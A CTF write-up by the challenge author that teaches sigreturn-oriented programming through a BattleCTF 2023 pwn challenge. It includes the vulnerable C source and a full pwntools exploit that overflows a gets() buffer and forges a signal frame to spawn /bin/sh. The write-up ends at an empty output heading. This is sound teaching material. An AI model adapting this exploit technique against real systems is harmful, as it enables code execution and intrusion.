



# 0xf Writeup [Pwn]

Challenge : [0xf](https://github.com/0xbugpwn/battleCTF-2023/tree/main/Prequal/Pwn/0xf)

## SROP Challenge from BattleCTF 2023 Qualifier


This is one of the pwn challenges I wrote for Africa BattleCTF 2023. The goal of the challenge is to teach the exploitation technique using SROP.


## Explanation of Sigreturn Oriented Programming (SROP)

### What is SROP?

`Sigreturn Oriented Programming (SROP)` is an exploitation technique that leverages the sigreturn `syscall` to manipulate the CPU's registers and execute arbitrary code. This method relies on constructing a fake signal frame, a structure typically created by the kernel during signal handling, and using it to set up the registers as needed for exploitation.


### Key Components of SROP

1. Sigreturn System Call:

	* The `sigreturn` syscall is invoked with `eax = 0x77` on x86 or `rax = 0xf` on x64.

	* It restores the CPU state from a memory location pointed to by the stack pointer (`rsp` on x64).

2. Fake Signal Frame:

	* This structure mimics the state saved by the kernel during signal handling.

	* By crafting this frame, attackers control register values such as `rip` (instruction pointer), `rax` (syscall number), and others required for system calls.

3. System Call Execution:

	* After restoring registers, the next instruction (typically a syscall) is executed with the manipulated state.

4. Prerequisite Vulnerability:

	* A buffer overflow or similar vulnerability is required to control the stack and inject the crafted signal frame.


### Exploitation Flow

1. Trigger Buffer Overflow:

	* Overwrite the saved return address to point to a gadget that sets `eax = 0x77` (for x86) or `rax = 0xf` (for x64).

2. Prepare Fake Signal Frame:

	* Construct the signal frame in writable memory, setting registers as required for the intended syscall.

3. Invoke Sigreturn:

	* Use a gadget to execute the `sigreturn` syscall, restoring the crafted CPU state.

4. Execute Payload:

	* The manipulated registers now execute the intended system call, such as `execve` to spawn a shell.


## BattleCTF 2023 SROP Challenge


This challenge involves exploiting a vulnerable binary to spawn a shell using SROP. The binary provides a buffer overflow vulnerability.


Source Code

```py
//gcc -fno-stack-protector -no-pie syscall.c -o syscall
#include <stdio.h>
#include <stdlib.h>

static char* gbeto = "/bin/sh";

void hausa() {
    __asm__(  
          "mov $0xf, %eax;"  
          "ret;"
          "syscall;"
          "ret"
            );
}

int main() {
    printf("Africa battle CTF 2023\n");
    printf("Tell us about your ethnicity:\n");

    char buf[0x30];
    gets(buf);
}
```





#### Vulnerability Breakdown

1. **Buffer Overflow**: The **gets** function in main allows unbounded input, enabling overflow and control of the saved return address.

2. **Syscall Facilitation**: The **hausa** function provides an inline assembly block to prepare and invoke **syscalls**.

3. **Static String**: **gbeto** contains the address of **/bin/sh**, which can be used as an argument to **execve**.


### Exploitation Plan

The exploitation targets **execve("/bin/sh", NULL, NULL)** by:

1. Overwriting the return address with a gadget that sets **rax = 15** (sigreturn syscall).

2. Crafting a fake signal frame to prepare the registers for **execve**.

3. Triggering **sigreturn** to restore the CPU state and execute the syscall.

#### Key Components

* Gadgets:

	* **moveax**: Address at **hausa + 4**, sets **rax = 15**.

	* **syscall**: Address at **hausa + 10**, triggers **syscall** execution.

* Writable Memory:

	* **gbeto** contains **/bin/sh** at a static address (**0x402004**), suitable for **execve**.

* Registers Setup:

	* **rax = SYS_execve** (59)

	* **rdi = Address of "/bin/sh"**

	* **rsi = NULL**

	* **rdx = NULL**


## Exploit Code


```py
from pwn import *

context.arch = 'amd64'

sh = process("./0xf")

if args.REMOTE:
	sh = remote("pwn.battlectf.online", 1009)


# Create Sigreturn Frame
frame = SigreturnFrame(kernel='amd64')
frame.rax = constants.SYS_execve     # System call number for execve
frame.rdi = 0x402004                 # Address of "/bin/sh"
frame.rsi = 0                        # NULL (no arguments)
frame.rdx = 0                        # NULL (no environment)
frame.rip = 0x401140                 # Address to execute syscall

# Payload construction
payload = b'A' * (0x30 + 8)           # Buffer overflow and saved return address
payload += p64(0x40113a)              # Set rax = 15 (sigreturn)
payload += p64(0x401140)              # Trigger sigreturn
payload += bytes(frame)               # Inject fake SigreturnFrame

# Send payload
sh.sendline(payload)
sh.interactive()
```

### Exploit Output

Running the exploit results in the following:


